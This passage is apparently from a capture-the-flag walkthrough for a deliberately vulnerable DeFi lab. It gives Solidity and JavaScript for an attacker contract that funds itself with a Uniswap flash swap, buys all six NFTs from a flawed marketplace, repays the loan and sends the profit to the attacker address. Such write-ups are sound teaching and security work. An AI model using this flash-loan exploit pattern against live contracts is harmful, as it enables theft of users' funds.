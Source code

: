 2.After the `attack()` function is called, the UniswapV2Pair contract will call the `uniswapV2Call()` function of our attacker contract. So, inside that function we continue our attack. We deposit the WETH we just got from the flash swap to the WETH contract to get its equivalent in ETH:

```solidity
WETH.withdraw(_amount0);
```

3.Use that obtained ETH to buy the NFTs of the marketplace. We only need 15 ETH to get all 6 NFTs out of it:

```solidity
(bool nftsBought, ) = marketplace.call{value: _amount0}(
  abi.encodeWithSignature(
     "buyMany(uint256[])",
     tokenIds
  )        
);
```

4.Calculate the flash swap’s fee and the total that we have to transfer back to the UniswapV2Pair contract.

```solidity
uint256 _fee = (_amount0 * 3) / 997 + 1;        
uint256 _repayAmount = _fee + _amount0;
```

5.Deposit the calculated _repayAmount of ETH to the WETH9 contract, to get the amount of WETH needed to pay back the flash swap to the UniswapV2Pair contract:

```solidity
WETH.deposit{value: _repayAmount}();
```

6.Transfer the WETH borrowed from flash swap back to UniswapV2Pair with fee included (so that the transaction won’t revert):

```solidity
WETH.transfer(address(UNISWAP_PAIR), _repayAmount);
```

7.Transfer the NFTs to the buyer contract, so that we get our payout of 45 ETH:

```solidity
for (uint256 i = 0; i < 6; i++) { 
   NFT.safeTransferFrom(address(this), buyer, tokenIds[i]); 
}
```

8.Finally, withdraw all ETH from our FreeRiderAttacker contract to our attacker address:

```solidity
(bool ethSent, ) = attacker.call{value: address(this).balance}("");
```

And that’s it. In the JS file, we would only need to deploy the contract with the correct parameters for the constructor and call the attack() function.

```js
it('Exploit', async function () {
	/** CODE YOUR EXPLOIT HERE */

	// Deploy evil contract
	this.attackerContract = await (
		await ethers.getContractFactory('FreeRiderAttacker', attacker)
	).deploy(
		this.nft.address,
		this.weth.address,
		this.uniswapPair.address,
		this.marketplace.address,
		this.buyerContract.address
	)
```